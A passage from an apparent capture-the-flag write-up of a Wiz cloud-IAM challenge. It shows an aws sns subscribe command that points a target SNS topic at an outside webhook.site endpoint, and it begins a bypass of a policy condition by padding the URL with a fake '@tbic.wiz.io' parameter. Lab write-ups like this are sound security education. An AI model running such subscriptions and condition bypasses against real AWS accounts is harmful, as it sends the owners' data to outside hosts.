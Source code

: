 Once again, we consult the docs for [SNS:Subscribe](https://docs.aws.amazon.com/cli/latest/reference/sns/subscribe.html) and we find the call we need is `aws sns subscribe --topic-arn arn:aws:sns:us-east-1:092297851374:TBICWizPushNotifications --return-subscription-arn --protocol https --notification-endpoint <some https server>`

To actually receive messages from this SNS service, we'll have to have a web accessible endpoint where we can inspect any incoming traffic. Instead of spinning up a web server or EC2 instance to satisfy this need, I've opted to follow a lazier route by employing [webhook.site](https://webhook.site). Webhook.site is a free service that automatically creates an HTTPS endpoint for you when you browse to it. It's purpose is to allow users to easily inspect incoming HTTP requests to aid in development or testing of web services. 

Here's a view of our webhook in the browser, notice how we have been assigned `https://webhook.site/1277b343-f73a-4753-9042-0bcb6b9ced04` as our unique endpoint. We can then view any incoming web requests to this endpoint via the query log on the left. 
![c3 wh](/assets/img/2023-09-24-iam/chal3_wh.png)

Now that we have a valid HTTPS endpoint to field notifications from the SNS service, all that's left is to subscribe! Lets return to the command we came up with earlier, but this time substitute the name of our new HTTPS endpoint in place of "some https server".

Explicitly, we plan to run `aws sns subscribe --topic-arn arn:aws:sns:us-east-1:092297851374:TBICWizPushNotifications --return-subscription-arn --protocol https --notification-endpoint https://webhook.site/1277b343-f73a-4753-9042-0bcb6b9ced04`. However, if we try to execute this command as-is we receive an access control error. 

![c3 wh](/assets/img/2023-09-24-iam/chal3_subfail.png)

Seems like we've overlooked a necessary condition: the resource subscribing to the SNS endpoint must end in the string "@tbic.wiz.io". Since we communicating over HTTPS we can simply create a dummy HTTP GET parameter, something like `foo=@tbic.wiz.io`, and append it to the end of the URL like so:
